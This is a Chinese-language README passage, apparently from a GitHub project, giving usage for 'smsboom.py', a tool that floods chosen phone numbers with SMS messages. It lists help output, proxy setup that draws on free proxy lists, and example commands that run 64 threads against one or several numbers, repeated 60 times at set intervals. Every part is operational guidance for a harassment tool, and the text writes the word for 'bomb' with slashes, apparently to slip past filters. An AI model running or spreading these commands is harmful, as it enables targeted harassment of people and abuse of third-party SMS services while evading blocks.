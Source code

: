 - 启动轰//炸  

帮助信息:

```shell
python smsboom.py run --help

Usage: smsboom.py run [OPTIONS]

传入线程数和手机号启动轰//炸,支持多手机号

Options:
-t, --thread INTEGER       线程数(默认64)
-p, --phone TEXT           手机号,可传入多个再使用-p传递  [required]
-f, --frequency INTEGER    执行次数(默认1次)
-i, --interval INTEGER     间隔时间(默认60s)
-e, --enable_proxy BOOLEAN 开启代理(默认关闭)
--help                     Show this message and exit.
```

### 使用代理

本项目不能通过API自动获取代理, 你可以从下面的免费代理网站中手动获取代理, 或是选择使用自己的代理, 或是不使用代理.

> [https://proxyscrape.com/free-proxy-list](https://proxyscrape.com/free-proxy-list)

> [https://openproxy.space/list](https://openproxy.space/list)

将代理添加到 `http_proxy.txt` `socks4_proxy.txt` `socks5_proxy.txt` 三个文件中, 命令参数添加 `-e` 执行即可.

### 命令示例

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx
```

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60
```
   
启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30
```

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30 -e
```

启动64个线程,轰//炸多个人的手机号(198xxxxxxxx,199xxxxxxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -p 199xxxxxxxx -f 60 -i 30 -e
```
